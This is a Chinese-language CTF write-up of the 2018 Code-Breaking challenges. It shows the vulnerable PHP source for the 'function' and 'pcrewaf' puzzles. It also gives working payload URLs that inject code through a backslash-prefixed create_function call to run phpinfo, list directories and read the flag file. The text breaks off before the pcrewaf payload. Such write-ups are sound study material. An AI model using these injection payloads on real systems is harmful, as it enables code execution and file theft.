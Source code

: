 ```yaml
---
title: 2018 Code-Breaking WriteUp
tags:
  - CTF
  - WEB
  - WriteUp
date: 2018-12-12 14:42:59
toc: true
---
```


## 前言
感谢P牛精心准备的题目，前段时间各种事情，最近才有空来做这套题目，学到了不少东西，在此记录。
<!-- more -->
几个题目知识点的描述：
1. function PHP函数利用技巧
2. pcrewaf PHP正则特性
3. phpmagic PHP写文件技巧
4. phplimit PHP代码执行限制绕过
5. nodechr Javascript字符串特性
6. javacon SPEL表达式沙盒绕过
7. lumenserial 反序列化在7.2下的利用
8. picklecode Python反序列化沙盒绕过

<!-- more -->

## easy - function
```
等级：easy
一个非常简单地PHP题目
所有代码都在题目中。
puzzle url: http://51.158.75.42:8087/
```
环境：
```http
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.12
```
源码：
```php
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```
$action必须出现`[a-z0-9_]`之外的字符才能进到后面去动态调用函数，尝试在函数名前后fuzz一下字符
![](/img/2018-code-breaking-1.png)
发现函数名前面存在`%5c`也就是`\`，依然能够顺利调用，因为`\`是php里的默认命名空间，具体原理可以看P牛的小密圈  
后面就是找一个危险函数去动态调用并命令执行，最后找到的是`create_function`  
payload如下：
```url
phpinfo:
http://51.158.75.42:8087/?action=\create_function&arg=return 1;}phpinfo();/*
列目录：
http://51.158.75.42:8087/?action=\create_function&arg=return 1;}var_dump(scandir('../'));/*
读flag：
http://51.158.75.42:8087/?action=\create_function&arg=1;}var_dump(readfile('../flag_h0w2execute_arb1trary_c0de'));/*

```

## easy - pcrewaf
```
等级：easy
谁说基于正则的WAF无法防御黑客呢？
所有代码都在URL里。
URL： http://51.158.75.42:8088/
```
环境：
```http
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.1.24
```
源码：
```php
<?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = 'data/' . md5($_SERVER['REMOTE_ADDR']);
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
} 1
```
可以上传文件，但是文件内容使用正则检查是否为php，如果匹配成功则不写入文件。看提示就是需要绕过这处正则了
payload如下：
